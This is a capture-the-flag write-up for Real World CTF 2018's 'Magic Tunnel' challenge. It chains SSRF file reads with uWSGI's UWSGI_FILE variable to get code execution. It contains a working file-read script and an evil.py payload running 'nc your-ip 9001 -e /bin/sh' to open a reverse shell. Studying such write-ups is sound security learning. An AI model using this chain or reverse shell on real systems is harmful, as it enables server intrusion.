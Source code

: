 ### References

- [@veneno, RWCTF-Magic Tunnel-WP, 2018-12-06](https://xz.aliyun.com/t/3512)
- [@zaratec, Real World CTF 2018 | Magic Tunnel, 2018-12-20](https://zaratec.github.io/2018/12/20/rwctf2018-magic-tunnel/)
- [@phith0n, realworldctf/magic_tunnel/README.md](https://github.com/phith0n/realworldctf/tree/master/2018/magic_tunnel)
- [@wofeiwo, uWSGI 远程代码执行漏洞](https://github.com/wofeiwo/webcgi-exploits/blob/master/python/uwsgi-rce-zh.md)

**Tag: SSRF, uWSGI rce**

1.Use `file:///proc/mounts` we can find WEB directory

```tex
/usr/src/rwctf
```

and read `file:///proc/self/cmdline` we can see the process is a uWSGI server with exposed 8000 port.

2.Read arbitrary files script:

```python
import re
import requests

s = requests.session()
response = s.post('http://192.168.200.129:8080/', data={
    'url': 'file:///usr/src/rwctf/manage.py',
    'csrfmiddlewaretoken': 'QSroJ2yRuVRFFXkT2m6hHYlRKdpwK6MYX9f1wcHW87DJeTJelzg3WRZxjIXhHNhp'
}, cookies={'csrftoken': 'QSroJ2yRuVRFFXkT2m6hHYlRKdpwK6MYX9f1wcHW87DJeTJelzg3WRZxjIXhHNhp'}, allow_redirects=True)
# print(response.text)

g = re.search('<img src="(.+?)"', response.text)
filename = g.group(1)
print(filename)

response = s.get('http://192.168.200.129:8080' + filename)
print(response.text)

```

Download and read the source code.

3.Know the "magic variables" [UWSGI_FILE](https://uwsgi-docs.readthedocs.io/en/latest/Vars.html)-Load the specified file as a new dynamic app, and then we can use gopher+SSRF to execute arbitrary script on the server.

4.Download evil.py:

```python
import os
os.system("nc your-ip 9001 -e /bin/sh")
```

![](https://i.imgur.com/CDjAYpG.png)

5.Generate evil uwsgi protocol bytes, `/usr/src/rwctf/media/2021/05/16/fb08beef-ebce-41e5-9b75-1316552e102b` is the evil python code that you have downloaded.

6.Use SSRF to send evil bytes to uwsgi port 8000:

![](https://i.imgur.com/xf0rL0t.png)

